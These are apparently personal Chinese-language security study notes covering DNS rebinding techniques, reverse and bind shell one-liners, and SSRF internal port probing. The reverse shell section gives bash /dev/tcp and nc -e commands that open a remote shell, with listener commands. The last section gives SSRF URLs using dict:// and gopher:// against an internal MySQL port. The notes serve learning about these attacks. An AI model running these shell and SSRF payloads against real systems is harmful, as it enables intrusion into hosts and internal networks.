     [关于DNS-rebinding的总结_灰太的表格的博客-CSDN博客](https://blog.csdn.net/qq_45449318/article/details/112916226)
    
    [DNS Rebinding 域名重新绑定攻击技术 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/194861.html)
    
    1. **dns重绑定技术，有三种利用姿势，**
        1. 利用ttl值，设置ttl值为0，每次访问同一域名都要进行一次域名解析，第一次解析出来一个外网地址，第二次解析出来内网地址。手动修改两次解析的结果。使两次访问不同的ip但域名还是一样的。国内的ttl值不能设置为0，需使用国外的。
        2. 域名绑定两个ip，能不能成功全靠运气。
    
    ![](https://www.notion.so/XXE%20and%20SSRF%20b66bc33c063d492e8b83706ebb9e8b66/Untitled.png)
    
    XXE%20and%20SSRF%20b66bc33c063d492e8b83706ebb9e8b66/Untitled.png
    
    3，自建一台dns服务器，解析结果全由自己控制。
    

![](https://www.notion.so/XXE%20and%20SSRF%20b66bc33c063d492e8b83706ebb9e8b66/Untitled%201.png)

XXE%20and%20SSRF%20b66bc33c063d492e8b83706ebb9e8b66/Untitled%201.png

### 反弹shell

**使用bash**

> 被攻击者执行命令：bash -i >& /dev/tcp/127.0.0.1/5555 0>&1
> 

> 攻击者监听本机的5555端口：nc -lvp 5555
> 

**使用nc**

正向nc

> nc -lvp 7777 -e /bin/bash //将cmd映射到本地的7777端口
> 

> nc 172.16.11.6 7777//主动去连
> 

方向nc

> nc -e /bin/bash 172.16.11.6 7777 //将cmd.exe发送到控制端主机的7777端口
> 

> nc -lvp 7777 //监听7777端口
> 

### 内网端口探测

`http://172.16.11.6/ssrf.php?url=dict://172.16.11.41:3306/info` info为固定写法

`http://172.16.11.6/ssrf.php?url=gopher://172.16.11.41:3306/_info` gopher协议